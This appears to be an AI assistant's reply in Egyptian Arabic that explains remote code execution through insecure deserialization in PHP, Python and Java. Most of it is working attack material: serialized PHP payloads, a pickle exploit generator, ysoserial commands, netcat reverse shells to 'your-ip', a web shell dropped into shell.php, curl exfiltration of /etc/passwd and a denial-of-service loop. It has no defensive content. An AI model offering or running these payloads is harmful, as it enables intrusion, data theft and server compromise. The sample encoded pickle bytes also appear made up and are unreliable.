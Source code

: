 تمام، هشرحلك موضوع "Remote Code Execution via Insecure Deserialization" بعمق كـ Pentester، مع تركيز على الجانب العملي والأكواد والأوامر، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Remote Code Execution via Insecure Deserialization بعمق**
"Remote Code Execution" (RCE) يعني تنفيذ أوامر أو كود على السيرفر من بُعد، و"Insecure Deserialization" هي الثغرة اللي بتخليك تعمل كده عن طريق استغلال عملية تحويل البيانات المسلسلة (Serialized) لكائنات (Objects) في التطبيق. لما التطبيق بيفك بيانات منك من غير ما يفحصها كويس، بتقدر تحط كود خبيث يتنفذ.

- **ازاي بتحصل؟** التطبيق بيستخدم دوال زي `unserialize()` في PHP، `pickle.loads()` في Python، أو `ObjectInputStream` في Java على إنبوت من المستخدم من غير حماية كافية.
- **الهدف:** تشغيل أوامر زي `whoami` أو فتح شيل كامل على السيرفر.

**مثال بسيط:**
لو موقع بياخد سلسلة serialized زي:
```
O:4:"Test":1:{s:3:"cmd";s:6:"whoami";}
```
والتطبيق بيستخدم كلاس فيه دالة تنفذ الأمر ده، السيرفر هيشتغل `whoami` ويرجعلك النتيجة.

**خلاصة بالعامية:**  
يعني كأنك بتبعت للسيرفر كيس فيه أمر، وهو بيفتحه ويعمل اللي مكتوب جواه من غير ما يبص هو ايه.

---

### **2. الجانب العملي: ازاي بنستغلها لـ RCE**
هنشرح الطرق الشائعة مع أمثلة عملية:

#### **أ. PHP Insecure Deserialization**
في PHP، لو التطبيق بيستخدم `unserialize()`، بنستغل الكلاسات الموجودة عشان ننفذ أوامر.

- **مثال عملي:**
  لنفرض في كلاس في التطبيق:
  ```
  class Logger {
      public $command;
      public function __destruct() {
          system($this->command);
      }
  }
  ```
  لو الموقع بياخد إنبوت زي `?data=serialized_string`، اعمل سلسلة:
  ```
  O:6:"Logger":1:{s:7:"command";s:6:"whoami";}
  ```
  شفرها لو لازم:
  ```
  ?data=O%3A6%3A%22Logger%22%3A1%3A%7Bs%3A7%3A%22command%22%3Bs%3A6%3A%22whoami%22%3B%7D
  ```
  لما السيرفر يفكها، هينفذ `whoami`.

- **أمر عملي كـ Pentester:**
  جرب أوامر بسيطة:
  ```
  O:6:"Logger":1:{s:7:"command";s:2:"id";}
  ```
  لو رجعلك اسم المستخدم أو نتيجة، يبقى في RCE.

**خلاصة بالعامية:**  
كأنك بتبعت ورقة للسيرفر مكتوب فيها "قوللي إنت مين"، وهو يقولك من غير ما يفكر.

#### **ب. Python Pickle RCE**
في Python، لو التطبيق بيستخدم `pickle.loads()`، بنقدر نحط كود يتنفذ.

- **مثال عملي:**
  اعمل سكربت يولد Payload:
  ```
  import pickle
  import os

  class Exploit:
      def __reduce__(self):
          return (os.system, ('whoami',))

  payload = pickle.dumps(Exploit())
  print(payload.hex())
  ```
  هيرجعلك بايتات زي:
  ```
  8004952a00000000000863706f730e73797374656d71007428126377686f616d697100725800
  ```
  حط البايتات في حقل إنبوت (زي POST Data) أو شفرها لـ Base64:
  ```
  gASVKgAAAAAAAABjAHBvcw5zeXN0ZW0AcHQoAXN3aG9hbWkAcng=
  ```

- **أمر عملي:**
  جرب شيل عكسي:
  ```
  import pickle
  import os
  class Exploit:
      def __reduce__(self):
          return (os.system, ('nc -e /bin/sh your-ip 4444',))
  payload = pickle.dumps(Exploit())
  ```
  واستمع على `nc`:
  ```
  nc -lvnp 4444
  ```

**خلاصة بالعامية:**  
كأنك بتبعت صندوق مفخخ للسيرفر، ولما يفتحه يرن عليك ويديك خط مفتوح.

#### **ج. Java Deserialization RCE**
في Java، لو التطبيق بيستخدم `ObjectInputStream`، بنستخدم أدوات زي `ysoserial` لـ RCE.

- **مثال عملي:**
  استخدم `ysoserial`:
  ```
  java -jar ysoserial.jar CommonsCollections5 "whoami" > payload.bin
  ```
  ارفع الـ `payload.bin` في حقل إنبوت (زي POST Data أو Cookie)، أو حوله لـ Base64 لو لازم.

- **شيل عكسي:**
  ```
  java -jar ysoserial.jar CommonsCollections5 "nc -e /bin/sh your-ip 4444" > payload.bin
  ```
  واستمع:
  ```
  nc -lvnp 4444
  ```

- **أمر عملي:**
  جرب Gadgets مختلفة:
  ```
  java -jar ysoserial.jar JRMPClient "your-ip:4444"
  ```

**خلاصة بالعامية:**  
كأنك بتبعت قنبلة جاهزة للسيرفر، وهو يشغلها ويديك التحكم.

#### **د. استغلال Magic Methods أو Gadgets**
في كل لغة، بنعتمد على دوال أو كلاسات معينة (زي `__destruct` في PHP أو Gadgets في Java) عشان ننفذ الكود.

- **مثال عملي (PHP):**
  لو في كلاس زي:
  ```
  class FileHandler {
      public $file;
      public function __wakeup() {
          exec($this->file);
      }
  }
  ```
  ابعت:
  ```
  O:11:"FileHandler":1:{s:4:"file";s:6:"whoami";}
  ```

**خلاصة بالعامية:**  
كأنك بتستغل نقطة ضعف في السيرفر، وتخليه يضرب نفسه بنفسه.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي هعدلك كل الطرق اللي ممكن تستغل بيها الثغرة دي لـ RCE:

1. **Basic Command Execution:**
   - تنفيذ أوامر زي `whoami`, `id`, `dir`.

2. **Reverse Shell:**
   - فتح شيل عكسي:
   ```
   nc -e /bin/sh your-ip 4444
   ```

3. **File Manipulation:**
   - كتابة شيل في ملف:
   ```
   O:6:"Logger":1:{s:7:"command";s:35:"echo '<?php system($_GET[cmd]);' > shell.php";}
   ```

4. **Privilege Escalation:**
   - لو الكود بيتنفذ بصلاحيات عالية، استغلها للوصول للروت.

5. **Network Attacks:**
   - تنفيذ أوامر تسكان الشبكة:
   ```
   nmap -sP 192.168.1.0/24
   ```

6. **Data Exfiltration:**
   - إرسال بيانات للخارج:
   ```
   curl http://your-ip:8000/?data=`cat /etc/passwd`
   ```

7. **Denial of Service:**
   - تنفيذ حلقة لا نهائية أو أمر يعلق السيرفر:
   ```
   while true; do echo test; done
   ```

---

### **نصيحة كـ Pentester:**
- ابحث عن الكلاسات الموجودة في التطبيق (من أخطاء أو سورس لو متاح).
- استخدم أدوات زي `ysoserial` لـ Java، أو كود يدوي لـ PHP/Python.
- جرب أوامر بسيطة أولاً (زي `whoami`) قبل ما تكبر الهجمة.
- لو Blind، ركز على أوامر تبعت ردود للخارج (DNS, HTTP).

لو عايز تفاصيل أكتر عن أي سيناريو أو أداة، قوللي!